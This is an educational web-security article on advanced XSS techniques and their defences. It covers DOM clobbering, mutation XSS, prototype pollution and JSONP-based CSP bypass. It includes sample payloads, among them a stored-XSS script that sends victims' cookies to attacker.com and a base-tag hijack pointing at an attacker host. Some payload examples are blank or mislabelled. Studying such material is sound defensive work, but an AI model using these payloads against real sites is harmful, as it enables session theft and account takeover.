

⚡ TL;DR - Advanced XSS attacks bypass Content Security Policy (CSP),
HTML sanitizers, and WAF rules through techniques like DOM clobbering
(overwriting DOM properties using named HTML elements), mutation XSS
(HTML sanitizer output mutated by the browser parser into executable
script after sanitization), prototype pollution (manipulating Object.prototype
to inject properties used in sink calls), and CSP bypass via JSONP or
Angular template injection. The fundamental defense: output encoding
at every rendering context (HTML, attribute, JavaScript, CSS, URL),
DOMPurify for HTML sanitization (not hand-rolled regexes), strict CSP
(nonce-based, no unsafe-inline), and Trusted Types API. Classic XSS
payloads are blocked by modern WAFs; advanced XSS is specifically designed
to evade them.

---

| #091 | Category: Security | Difficulty: ★★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, CSP, Authentication, Session Management, Secrets Management, IAM, TLS Configuration, OAuth 2.0 Security Best Practices, Business Logic Vulnerabilities, Advanced JWT Attacks | |
| **Used by:** | SSRF to Internal Exploitation, TLS Protocol Attacks, Responsible Disclosure, IR Process, AWS Security Services, DevSecOps Pipeline Design, SSDLC, Web Security Model Browser Architecture | |
| **Related:** | OWASP Top 10, CSP, Authentication, Session Management, IAM, TLS Configuration, Business Logic Vulnerabilities, Advanced JWT Attacks, SSRF, TLS Protocol Attacks, Web Security Model | |

---

### 🔥 The Problem This Solves

**WHY BASIC XSS DEFENSES FAIL AGAINST ADVANCED ATTACKS:**

```
THE DEFENSE BYPASS PROBLEM:

  STANDARD XSS DEFENSES (and why advanced attacks bypass them):
  
  Defense 1: HTML encoding of user output
    Encodes < > " ' & → &lt; &gt; &quot; &#x27; &amp;
    
    BYPASSED BY: DOM XSS - output goes to innerHTML/eval/document.write
    without going through the server at all.
    Server encodes: safe. DOM writes the encoded string back to innerHTML.
    Browser decodes HTML entities in innerHTML: <script> executes.
    
    Attack:
      document.getElementById('output').innerHTML = location.hash.slice(1);
      //                                             ^^^^^^^^^^^^^^^^^^^^
      //                            attacker controls: #
      //                            server never sees this - it's a URL fragment.
      //                            HTML encoding: not applied.
  
  Defense 2: Content Security Policy (CSP)
    CSP: "default-src 'self'; script-src 'nonce-abc123'"
    Blocks all inline scripts without nonce.
    
    BYPASSED BY: JSONP endpoint on the allowed domain.
    CSP: "script-src https://api.mysite.com"  (allows all scripts from mysite.com)
    Attacker: <script src="https://api.mysite.com/jsonp?callback=alert(1)"></script>
    JSONP response: alert(1)({"data": ...}) → executes alert(1).
    CSP allowed the domain → allowed the script → JSONP delivers attacker code.
    
    BYPASSED BY: Angular template injection (if Angular on page and CSP allows it).
    Payload: {{constructor.constructor('alert(1)')()}}
    Angular evaluates this as a template expression → RCE.
  
  Defense 3: HTML sanitizer (DOMPurify 2.x class)
    Sanitizer removes <script>, onerror attributes, javascript: URLs.
    
    BYPASSED BY: Mutation XSS (mXSS).
    Some HTML is sanitized safely but, when parsed by a specific browser
    DOM parser context, is mutated into executable script.
    
    Classic example (fixed in DOMPurify 3.x):
      Input: <form><math><mtext></form><form><mglyph><svg><mtext>
             <textarea><a title="</textarea>">
      Sanitizer serializes and re-parses in one context.
      Browser parses in a different context (e.g., inside a <template>).
      The HTML structure is different in the two parsing contexts.
      Browser produces:  from the "sanitized" input.
      
    KEY INSIGHT: If sanitizer serializes HTML and it is then parsed in a
    different DOM context, the parser may reinterpret the HTML differently,
    producing script execution. This is why DOMPurify validates
    the output by re-parsing it in the target context.
  
  Defense 4: Parameterized queries (SQL injection prevention)
    Prevents injection into SQL. Has no effect on XSS.
    Developers who fix SQL injection sometimes believe XSS is also addressed.
    
    XSS requires: output encoding at ALL rendering contexts.
    Contexts: HTML body, HTML attributes, JavaScript strings, CSS values, URL params.
    Each context has different special characters and encoding requirements.
    Encoding for HTML body does not protect HTML attributes. Separate encoding needed.
```

---

### 📘 Textbook Definition

**DOM XSS:** Cross-site scripting via DOM manipulation, where the injection
happens entirely client-side. User-controlled data (URL fragment, query parameter,
postMessage) is written to a dangerous DOM sink (innerHTML, eval, document.write)
without sanitization. The server is not involved - no HTML encoding by the server
protects against DOM XSS.

**DOM clobbering:** An attack where an attacker creates HTML elements with `name`
or `id` attributes that match global JavaScript variables or DOM properties used
by the application's scripts. When the script reads `window.property`, the HTML
element with `name=property` is returned instead of `undefined`. This can override
application configuration objects used in subsequent security-relevant operations.

**Mutation XSS (mXSS):** An XSS attack where the payload, after passing through
an HTML sanitizer, is mutated by the browser's HTML parser into an executable script.
The mutation occurs because the sanitizer and the browser parse the HTML in different
contexts, leading to different DOM trees from the same input string.

**Prototype pollution:** A JavaScript vulnerability where an attacker injects
properties into `Object.prototype`, making those properties available on all
JavaScript objects. If application code uses prototype properties in sink functions
(e.g., `element.innerHTML = obj.template`), and `Object.prototype.template` was
polluted with an XSS payload, this results in script execution.

**Trusted Types (API):** A browser API (Chrome, Edge) that prevents DOM XSS by
requiring all assignments to dangerous sinks (innerHTML, eval, etc.) to go through
a policy function. Raw strings cannot be assigned to innerHTML - only TrustedHTML
objects created by registered policy functions. This eliminates the entire class
of DOM XSS in browsers that support Trusted Types.

**JSONP (JSON with Padding):** A legacy technique for cross-domain data requests.
A server wraps JSON data in a JavaScript callback: `callback({"data": ...})`.
The response is a valid script. JSONP endpoints on CSP-allowed origins can be
used to execute attacker-controlled JavaScript in CSP-protected pages.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Advanced XSS is not `<script>alert(1)</script>` - it's exploiting DOM parsing
quirks (mutation XSS), JavaScript prototype manipulation (DOM clobbering/prototype
pollution), and CSP policy weaknesses (JSONP bypass, Angular templates) to execute
arbitrary JavaScript despite having server-side encoding and active CSP policies.

**One analogy:**
> Classical XSS: trying to smuggle explosives through airport security.
> The scanner catches all known explosive shapes. Blocked.
>
> Advanced XSS: assembling the explosive FROM components that are individually safe.
>   - A bottle of water: safe.
>   - A piece of metal: safe.
>   - Specific chemicals in shampoo: safe.
>   - Combined in the right order after passing through security: explosive.
>
> DOM clobbering: bring in components that look harmless (HTML elements).
>   They combine with existing JavaScript to override security configuration.
>
> Mutation XSS: pass a structure through the scanner (sanitizer).
>   The scanner sees it as safe. After scanning: the structure reassembles
>   into something dangerous in the target environment (browser DOM parser).
>
> Prototype pollution: inject properties into the "template" used by
>   all JavaScript objects. Like poisoning the ingredient supplier rather
>   than the individual product.
>
> The common thread: each component is safe in isolation.
> The danger comes from how they interact with the application's environment.

---

### 🔩 First Principles Explanation

**DOM clobbering in detail:**

```javascript
// DOM CLOBBERING ATTACK

// VULNERABLE APPLICATION CODE:
// (commonly seen in UI frameworks, configuration-driven components)

function initializeConfig() {
    // Developer expects: undefined or a custom config object
    // if no config was set by previous code.
    var config = window.appConfig || { sanitize: true, allowScripts: false };
    
    if (config.sanitize) {
        // ... apply sanitization
    }
    
    // If config.allowScripts is true: application disables script filtering.
    if (config.allowScripts) {
        document.getElementById('output').innerHTML = userInput; // SINK
    }
}

// ATTACKER PAYLOAD (in a stored XSS context, e.g., username field):
// The attacker stores this HTML in a page the victim will visit:

/*
<a id="appConfig">
<a id="appConfig" name="allowScripts">
*/

// What happens:
// When the browser encounters two elements with id="appConfig":
// window.appConfig is an HTMLCollection of those elements.
// window.appConfig.allowScripts: the second element has name="allowScripts".
// In an HTMLCollection: named elements can be accessed as properties.
// So: config.allowScripts → <a> element (truthy!) → not false.
// Result: config.allowScripts is truthy → innerHTML assignment with user input.
// Attack: attacker has disabled sanitization via HTML element injection.

// FIX: Never use DOM properties as configuration. Use a
// proper configuration object initialized before any HTML is rendered.
// Also: use Trusted Types to prevent innerHTML from accepting raw strings.

// ADVANCED DOM CLOBBERING - clobbering document.baseURI:
/*
<base href="https://attacker.com/">
*/
// If application has: document.write('<script src="' + scriptUrl + '">');
// And scriptUrl = "utils.js" (relative URL):
// Clobbered base: <script src="https://attacker.com/utils.js">
// Loads attacker's script instead of application's.
```

**Prototype pollution:**

```javascript
// PROTOTYPE POLLUTION ATTACK

// VULNERABLE APPLICATION CODE:
function merge(target, source) {
    // Common utility function: deep merge of objects.
    // Appears in many lodash-like utility libraries.
    for (let key in source) {
        if (typeof source[key] === 'object') {
            if (!target[key]) target[key] = {};
            merge(target[key], source[key]);  // RECURSIVE MERGE
        } else {
            target[key] = source[key];
        }
    }
}

// ATTACK PAYLOAD (e.g., from user-supplied JSON):
let malicious = JSON.parse('{"__proto__": {"innerHTML": ""}}');
merge({}, malicious);
// This does: {__proto__: ...} key → target.__proto__ = source.__proto__
// target.__proto__ IS Object.prototype.
// After merge: Object.prototype.innerHTML = ""
// Now EVERY JavaScript object has .innerHTML = the XSS payload.

// EXPLOITATION:
// Application code later:
let element = document.getElementById('output');
element.textContent = someObject.innerHTML;
//                               ^^^^^^^^^^^
//               someObject doesn't have .innerHTML defined.
//               Falls through to Object.prototype.innerHTML = XSS payload.
//               The XSS payload is assigned to textContent.
//               textContent doesn't execute scripts... but innerHTML would:

element.innerHTML = someObject.htmlContent;
// If the sink is innerHTML and Object.prototype.htmlContent is polluted:
// → XSS executes.

// FIX: Use Object.freeze(Object.prototype) to prevent modification.
// Or: use Object.create(null) for objects that store user-controlled keys.
// Or: use structuredClone() instead of recursive merge.
// Modern fix: lodash 4.17.21+ protects against prototype pollution in merge.

// DETECTION:
// console.log({}.innerHTML);  // should be undefined
// If not undefined: prototype has been polluted.
```

---

### 🧪 Thought Experiment

**SCENARIO: Bug bounty XSS finding in a CSP-protected SPA:**

```
TARGET: React SPA with CSP: "default-src 'self'; script-src 'nonce-{nonce}'"
        Strict CSP. No unsafe-inline. Nonce-based script loading.
        On first glance: XSS should be blocked even if script injection possible.

DISCOVERY PROCESS:

  Step 1: Identify injection points.
    Testing: what user data appears in the page?
    Profile bio field → rendered in page.
    Bio is HTML-encoded by server → no reflected XSS via server.
    But: bio is stored and displayed via React dangerouslySetInnerHTML.
    
  Step 2: Test DOMPurify bypass.
    Application uses DOMPurify.sanitize() before dangerouslySetInnerHTML.
    Version: DOMPurify 2.3.1 (older).
    
    Test: known mXSS payload for DOMPurify < 3.0:
    <math><mtext></math><script>alert(1)</script>
    
    Result: DOMPurify strips the <script>. No XSS.
    
    Test: namespace confusion payload:
    <math><mtext><table><mglyph><style></style></table></mtext></math>
    
    Result: Sanitized to safe HTML. Browser re-parses safely.
    DOMPurify 2.3.1 is patched for known mXSS. This version: safe.
    
  Step 3: Look for CSP bypass.
    Enumerate all origins allowed by CSP: "default-src 'self'"
    = only scripts from the same origin are allowed.
    
    Check for JSONP endpoints on the same origin:
    GET /api/v1/data?callback=test
    Response: test({"key": "value"});
    → A JSONP endpoint! Content-Type: application/javascript.
    
    CSP allows 'self'. This endpoint is on 'self'. CSP permits it.
    
    PAYLOAD:
    <script src="/api/v1/data?callback=alert(document.cookie)"></script>
    
    CSP: allowed (same origin, not inline).
    JSONP response: alert(document.cookie)({"key": "value"});
    
    First function call executes: alert(document.cookie).
    The ({"key": "value"}) part: tries to call the result as a function.
    This throws a TypeError... but the alert already executed.
    
    → XSS via JSONP bypass of strict nonce-based CSP.
    
    STORED XSS: inject <script src="/api/v1/data?callback=fetch('https://attacker.com?c='+document.cookie)"></script>
    into the bio field.
    
    Every user who views the profile: their session cookie is sent to attacker.com.

IMPACT ASSESSMENT:
  - Session cookie theft → account takeover
  - If HttpOnly: cookies not accessible via document.cookie
    But: XSS can still make authenticated API calls as the victim
    (reads CSRF tokens, makes state-changing requests, reads PII from API responses)
  - CSP nonce protection: bypassed via JSONP on same origin
  
REPORTING:
  Finding: Stored XSS via JSONP endpoint bypassing nonce-based CSP.
  Severity: High (account takeover, data access).
  Fix:
    1. Remove JSONP endpoint (or add Access-Control-Allow-Origin instead).
    2. If JSONP must exist: set Content-Type: application/json (not JS).
       Browser won't execute non-JS content from <script src>.
    3. CSP: add trusted-types directive to prevent raw string → innerHTML.
```

---

### 🧠 Mental Model / Analogy

> XSS defenses are like a document approval workflow.
>
> The document (user input) must pass through:
> 1. The server's HTML encoder (stamps "HTML-safe" on specific characters).
> 2. The sanitizer (DOMPurify: removes known-dangerous tags and attributes).
> 3. CSP (firewall: blocks scripts without approved nonces).
>
> Advanced XSS finds gaps in the workflow:
>
> DOM XSS: the document never goes through the server encoder.
>   (URL fragments go directly to JavaScript. The encoder is in the building's
>    mail room. URL fragments are delivered directly to the recipient's desk,
>    bypassing the mail room entirely.)
>
> Mutation XSS: the document is stamped safe by the sanitizer.
>   But the delivery desk (browser DOM parser) re-folds the document
>   in a way that reveals content that was hidden during stamping.
>   The stamp says "safe." The unfolded document is dangerous.
>
> DOM clobbering: the document doesn't contain a weapon.
>   It contains a magnet. The magnet is placed on the correct surface
>   in the recipient's office. When the legitimate document arrives
>   (application code), the magnet makes the legitimate document act dangerously.
>
> CSP bypass via JSONP: the firewall blocks all unauthorized entry.
>   But a trusted employee (JSONP endpoint on 'self') is allowed to enter.
>   The attacker puts a message inside the trusted employee's briefcase.
>   The firewall inspects the carrier (trusted origin), not the payload.
>   The employee delivers the attacker's message inside the building.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Advanced XSS attacks are methods to run malicious JavaScript in someone's browser even when the application has basic protections (HTML encoding, simple content filters). They exploit the gap between "the server thinks this HTML is safe" and "what the browser actually does with the HTML."

**Level 2 - How to use it (junior developer):**
Avoid `innerHTML`, `document.write`, and `eval` with any user-controlled data - these are DOM sinks. Use `textContent` instead of `innerHTML` for text. For rich HTML (user-submitted markup): use DOMPurify (latest version) before assigning to innerHTML. Enable CSP with nonces - avoid `unsafe-inline`. Use `HttpOnly` cookies so session tokens can't be stolen via XSS. Add `X-Content-Type-Options: nosniff` and `X-Frame-Options: DENY`.

**Level 3 - How it works (mid-level engineer):**
DOM XSS: source (location.hash, location.search, postMessage) → sink (innerHTML, eval, setTimeout(string), document.write). Defense: sanitize DOM sources before sink assignment (DOMPurify), or use Trusted Types API to enforce sanitization at sinks. Mutation XSS: occurs when sanitizer output is re-parsed by a different DOM context (template element vs. regular DOM). DOMPurify 3.x adds a `template` option to sanitize in the correct context. DOM clobbering: named HTML elements override `window` properties. Defense: never rely on `window.property` as application configuration. Prototype pollution: `__proto__` property in merge targets Object.prototype. Defense: `Object.freeze(Object.prototype)` or use JSON Schema validation to reject payloads with `__proto__`.

**Level 4 - Why it was designed this way (senior/staff):**
CSP was designed to prevent inline XSS. The gap: CSP operates at the resource level (allow/deny script loading by origin/nonce), not at the content level (what the script does). JSONP endpoints are allowed resources (same origin) that happen to contain attacker-controlled content. This is not a CSP design flaw - CSP was never designed to sanitize content from allowed origins. The fix: eliminate JSONP (replace with CORS+JSON). Trusted Types was designed specifically to close the gap between CSP (resource-level) and DOM XSS (sink-level). Trusted Types enforces that all sink assignments go through a registered policy - this makes DOM XSS a compile-time/policy violation rather than a runtime vulnerability, enables detection via CSP reporting, and is the most architecturally sound defense against DOM XSS.

**Level 5 - Mastery (distinguished engineer):**
Advanced XSS research: gadget-based XSS (using existing JavaScript code as "gadgets" to chain into XSS without injecting new code - analogous to ROP chains in memory exploitation). Spectre-based XSS: exploiting speculative execution to read cross-origin data from the browser process (requires cross-origin isolation bypass). Template injection: for Angular, Vue, Handlebars - template expressions evaluated in the DOM can execute arbitrary JavaScript; different from HTML XSS (template syntax is framework-specific). PostMessage XSS: cross-window messaging API used without origin validation - `window.addEventListener('message', e => innerHTML = e.data)` without `e.origin` check. Web component shadow DOM: shadow DOM provides isolation but `<slot>` elements can allow composed tree attacks. Subdomain takeover for CSP bypass: CSP allowlists subdomains, attacker takes over expired subdomain, hosts malicious script → CSP allows it (subdomain). Defense: don't allowlist `*.yourdomain.com` in CSP - use specific subdomains.

---

### ⚙️ How It Works (Mechanism)

```
XSS ATTACK SURFACE TAXONOMY:

  Injection Context | Attack Surface    | Defense
  ──────────────────┼───────────────────┼──────────────────────────
  HTML body         | Stored/Reflected  | HTML entity encoding
  HTML attribute    | Attribute XSS     | Attribute encoding (+ quotes)
  JavaScript string | JS context XSS    | JS string encoding (\uXXXX)
  URL parameter     | href/src XSS      | URL encoding + allowlist schemes
  CSS value         | CSS injection     | CSS encoding
  DOM sink          | DOM XSS           | DOMPurify + Trusted Types
  Template          | SSTI/Template XSS | Disable expression evaluation
  PostMessage       | Cross-origin XSS  | Origin validation
  
  CSP BYPASS TECHNIQUES:
    JSONP on allowed origin    → script execution via callback
    Angular template injection → if ng- is allowed in CSP
    Base tag injection         → relative URL hijacking
    Service worker injection   → if scope allows it
    Dangling markup            → data exfiltration without script
    Open redirect in script src → redirect to attacker-controlled JS
```



---

### 💻 Code Example

**Defending against DOM XSS with Trusted Types:**

```javascript
// UNSAFE: direct DOM XSS sink
function displayUserBio_BAD(bio) {
    // BAD: assigns raw user string to innerHTML
    // Any XSS payload in bio → script execution
    document.getElementById('bio').innerHTML = bio;
    //                             ^^^^^^^^^
    //                    DANGEROUS SINK: executes scripts
}

// BETTER: DOMPurify sanitization
function displayUserBio_BETTER(bio) {
    // Use DOMPurify (must be up-to-date version):
    const clean = DOMPurify.sanitize(bio, {
        ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
        ALLOWED_ATTR: ['href', 'title'],
        // FORCE_BODY: true prevents DOM clobbering via <form> elements
        FORCE_BODY: true,
        // FORBID_TAGS: additional explicit denies
        FORBID_TAGS: ['script', 'iframe', 'object', 'embed'],
    });
    document.getElementById('bio').innerHTML = clean;
}

// BEST: Trusted Types API (Chrome/Edge, with polyfill for others)
if (window.trustedTypes && trustedTypes.createPolicy) {
    
    const sanitizePolicy = trustedTypes.createPolicy('bio-sanitizer', {
        createHTML: (input) => {
            // DOMPurify.sanitize returns a string.
            // Trusted Types wraps it in a TrustedHTML object.
            return DOMPurify.sanitize(input, {
                ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
                ALLOWED_ATTR: ['href', 'title'],
                FORCE_BODY: true,
            });
        }
    });
    
    function displayUserBio_BEST(bio) {
        // Trusted Types: innerHTML only accepts TrustedHTML objects.
        // Any attempt to assign a raw string throws TypeError.
        const trustedHtml = sanitizePolicy.createHTML(bio);
        document.getElementById('bio').innerHTML = trustedHtml;
        // This assignment is safe: trustedHtml is a TrustedHTML object.
        // Raw string: "sanitize policy violation" TypeError → prevents DOM XSS.
    }
    
} else {
    // Fallback for browsers without Trusted Types:
    function displayUserBio_BEST(bio) {
        displayUserBio_BETTER(bio);  // DOMPurify fallback
    }
}

// CSP HEADER for strongest XSS protection:
// Content-Security-Policy:
//   default-src 'self';
//   script-src 'nonce-{SERVER_GENERATED_NONCE}';
//   require-trusted-types-for 'script';
//   trusted-types bio-sanitizer;
//   object-src 'none';
//   base-uri 'self';
//   form-action 'self';
//
// Explanation:
//   script-src: only scripts with matching nonce execute
//   require-trusted-types-for 'script': ALL sink assignments require Trusted Types
//   trusted-types bio-sanitizer: only this policy is allowed
//   object-src 'none': no <object>/<embed> (Flash XSS vectors)
//   base-uri 'self': prevent base tag injection
//   form-action 'self': prevent form phishing to external domains

// PROTOTYPE POLLUTION DEFENSE:
Object.freeze(Object.prototype);
// Prevents any code from modifying Object.prototype.
// Must be called before any user-controlled merge operations.
// Caveat: may break some libraries that extend Object.prototype (rare in modern code).

// Or: use Object.create(null) for merge targets:
function safeMerge(target, source) {
    const result = Object.create(null);  // no prototype chain
    for (const key of Object.keys(source)) {
        if (key === '__proto__' || key === 'constructor' || key === 'prototype') {
            continue;  // Skip prototype-polluting keys
        }
        result[key] = source[key];
    }
    return result;
}
```

---

### ⚖️ Comparison Table

| XSS Type | Server-Side Encoding Helps? | CSP Helps? | DOMPurify Helps? | Trusted Types Helps? |
|:---|:---|:---|:---|:---|
| **Reflected XSS** | Yes (prevents HTML injection) | Yes (blocks inline) | N/A | Yes (DOM sinks) |
| **Stored XSS** | Yes (on output) | Yes (blocks inline) | Yes (if HTML stored) | Yes (DOM sinks) |
| **DOM XSS** | No (bypass: URL fragment) | Partial (nonce) | Yes | Yes (strongest) |
| **Mutation XSS** | N/A | N/A | Yes (v3.x+) | Yes |
| **DOM clobbering** | No | No | Partial | Partial |
| **Prototype pollution** | No | No | No | No (JS layer) |
| **JSONP CSP bypass** | N/A | No (bypass) | N/A | Yes |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "CSP with nonces prevents all XSS." | CSP with nonces prevents inline XSS and loading external scripts without a valid nonce. It does NOT prevent: (1) DOM XSS via innerHTML in allowed scripts (the nonce-allowed script itself may have DOM XSS sinks), (2) JSONP bypass (if any endpoint on an allowed origin serves user-controlled content as JavaScript), (3) Angular/template injection (if Angular is served from the allowed origin), (4) Prototype pollution leading to XSS via JavaScript layer. Nonce-based CSP is a very strong control that significantly raises the bar for exploitation, but it is not a silver bullet. The complete defense: nonce-based CSP + Trusted Types + DOMPurify + no JSONP endpoints. |
| "DOMPurify can be used as the only XSS defense." | DOMPurify is an excellent client-side HTML sanitizer and is the recommended tool for HTML sanitization. However: (1) It only addresses HTML injection into DOM sinks - it does not address JavaScript string context injection, URL injection, CSS injection, or template injection. (2) DOMPurify must be the latest version - mXSS vulnerabilities have been discovered in specific versions. (3) DOMPurify can be bypassed if the sanitized HTML is subsequently passed to a DIFFERENT context (e.g., sanitize then put in a template engine that evaluates expressions). The complete XSS defense requires encoding at every rendering context + DOMPurify for HTML + CSP + Trusted Types. |

---

### 🚨 Failure Modes & Diagnosis

**Advanced XSS detection and diagnosis:**

```
DETECTING DOM XSS IN CODE REVIEW:

  Dangerous sinks to audit:
    JavaScript:
      element.innerHTML = [user_data]     → DOM XSS sink
      element.outerHTML = [user_data]     → DOM XSS sink
      element.insertAdjacentHTML(...)     → DOM XSS sink
      document.write([user_data])         → DOM XSS sink
      eval([user_data])                   → DOM XSS sink
      setTimeout([user_data])            → DOM XSS if string (not function)
      location.href = [user_data]         → navigation XSS
      
    React:
      dangerouslySetInnerHTML={{ __html: [user_data] }} → DOM XSS
      
    Angular:
      [innerHTML]=[user_data]             → DOM XSS
      bypassSecurityTrustHtml()          → bypasses Angular DomSanitizer!
  
  Dangerous sources (user-controlled input to sinks):
    location.hash, location.search, location.href
    document.referrer
    postMessage event.data (without origin check)
    localStorage/sessionStorage (if attacker-controlled)
    URL parameters (URLSearchParams)
    JSON.parse(attacker_data).field

DETECTING JSONP BYPASS RISK:
  Enumerate all application endpoints.
  Search for: ?callback=, ?jsonp=, ?cb= parameters.
  Test: /api/endpoint?callback=alert(1)
  Check Content-Type: if application/javascript → JSONP endpoint = CSP bypass risk.
  
  Fix: Remove JSONP. Return Content-Type: application/json.
  Browser will not execute application/json content from <script src>.
  
PROTOTYPE POLLUTION DETECTION:
  Browser console:
  JSON.parse('{"__proto__": {"test": "polluted"}}')
  console.log({}.test);  // "polluted" = vulnerable
  
  Node.js:
  const obj = {};
  merge(obj, JSON.parse('{"__proto__": {"test": "polluted"}}'));
  console.log({}.test);  // "polluted" = vulnerable
  
  Fix: Object.freeze(Object.prototype) + reject __proto__ keys in merge.
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10` (SEC-001) - XSS is OWASP A03
- `CSP` (SEC-003) - Content Security Policy context

**Builds on this:**
- `SSRF to Internal Exploitation` (SEC-093) - XSS can be used to trigger SSRF
- `Web Security Model Browser Architecture` (SEC-135) - deep browser security
- `Responsible Disclosure + Bug Bounty` (SEC-100) - XSS is the most reported bug class

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ DOM XSS       │ Sources: location.hash, postMessage      │
│ DEFENSE       │ Sinks: innerHTML, eval, document.write   │
│               │ Fix: DOMPurify + Trusted Types           │
├───────────────┼──────────────────────────────────────────┤
│ DOM CLOBBER   │ Named elements override window.props     │
│               │ Fix: don't use window[x] as config       │
├───────────────┼──────────────────────────────────────────┤
│ MUTATION XSS  │ Sanitizer + browser context mismatch     │
│               │ Fix: DOMPurify 3.x (context-aware)       │
├───────────────┼──────────────────────────────────────────┤
│ CSP BYPASS    │ JSONP on allowed origin → script exec    │
│               │ Fix: remove JSONP, use CORS+JSON         │
├───────────────┼──────────────────────────────────────────┤
│ PROTO POLLUT  │ Merge({}, {"__proto__": {...}}) = danger │
│               │ Fix: Object.freeze(Object.prototype)     │
├───────────────┼──────────────────────────────────────────┤
│ BEST CSP      │ script-src 'nonce-X'; require-trusted-  │
│               │ types-for 'script'; object-src 'none'    │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Sanitize at the sink, not just at the source."
The classic XSS mistake: sanitize user input when it's received (at the source),
store the sanitized version, render the stored version directly.
Problem: the "sanitized" version is sanitized for one context but rendered in another.
A string sanitized for SQL (parameterized query) is not sanitized for HTML output.
A string sanitized for HTML body is not sanitized for a JavaScript string context.
Context-switching defeats source-time sanitization.
The correct model: raw data stored (no source-time sanitization), sanitized/encoded
at every rendering point (sink-time sanitization for each specific rendering context).
This principle applies across domains:
- SQL: parameterize at the database call (sink), not before storing.
- HTML: encode at template rendering (sink), not at input time.
- OS command: use arguments arrays at execution (sink), not pre-escaped strings.
- LDAP: escape at LDAP query construction (sink), not at form submission.
The practical implication: every template rendering function must know
what context it's rendering into (HTML body, HTML attribute, JS string, CSS, URL)
and apply the correct encoding for that context. A generic `htmlEncode()`
applied everywhere is insufficient - you need context-aware encoding.
Modern frameworks (React, Angular, Vue) apply context-aware encoding automatically
for most cases. The danger: bypassing the framework (dangerouslySetInnerHTML,
bypassSecurityTrustHtml) to render HTML directly. Every such bypass is a
potential XSS vulnerability if the content is user-controlled.

---

### 💡 The Surprising Truth

The most interesting XSS findings in modern bug bounties are often not
classic `<script>alert(1)</script>` - they are logical XSS vulnerabilities
that require understanding how the application uses JavaScript frameworks.

PortSwigger Research's mutation XSS (mXSS) findings against DOMPurify showed
that the "industry standard" HTML sanitizer had subtle bypasses when rendered
in specific DOM contexts (within `<template>` elements, within `<math>` tags,
within `<svg>` elements).

The DOMPurify team's response: they implemented a SECOND parsing pass of the
sanitized output in the TARGET context. The insight: if you are sanitizing HTML
to be inserted into a `<template>` element, you must validate the sanitized output
by re-parsing it in a `<template>` element. The sanitizer must simulate the exact
browser parsing context where the output will be rendered.

This is a deep insight about security: the "safe" output is not just a property
of the sanitizer's rules. It's a property of the interaction between
the sanitizer's output AND the rendering context.
The same HTML string can be safe in one context and dangerous in another
because different DOM contexts have different HTML parsing rules.

DOMPurify now accepts a `PARSER_MEDIA_TYPE` option to sanitize for different
content types (text/html, application/xhtml+xml) and handles the context-specific
parsing correctly. This is the correct engineering approach:
model the threat accurately (browser parsing behavior), not just the symptom
("remove dangerous tags").

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** DOM XSS: user-controlled data goes to a DOM sink (innerHTML, eval)
   without passing through the server. Server-side HTML encoding doesn't protect.
   Defense: DOMPurify at the sink + Trusted Types API.
2. **DESCRIBE** algorithm confusion for CSP bypass: JSONP endpoint on CSP-allowed
   origin → attacker controls callback parameter → script execution despite CSP.
   Fix: remove JSONP endpoints or set Content-Type: application/json.
3. **IDENTIFY** prototype pollution risk in merge functions: `{"__proto__": {...}}`
   in user-supplied JSON → modifies Object.prototype → XSS via polluted properties.
   Defense: `Object.freeze(Object.prototype)` + reject `__proto__` keys.
4. **CONSTRUCT** a strong CSP: `script-src 'nonce-X'; require-trusted-types-for 'script'; object-src 'none'; base-uri 'self'`.

---

### 🎯 Interview Deep-Dive

**Q: What is DOM XSS? How does it differ from reflected XSS, and what
are the most effective defenses? Explain Trusted Types.**

*Why they ask:* Tests client-side security depth. Relevant for frontend,
full-stack, and security engineering roles.

*Strong answer covers:*
- Reflected XSS: server reflects user input without encoding → server-side fix (HTML encoding).
- DOM XSS: user input (URL fragment, postMessage) written to DOM sink (innerHTML, eval)
  by JavaScript - server never sees it. Server-side encoding doesn't help.
  Example: `document.getElementById('out').innerHTML = location.hash.slice(1)`
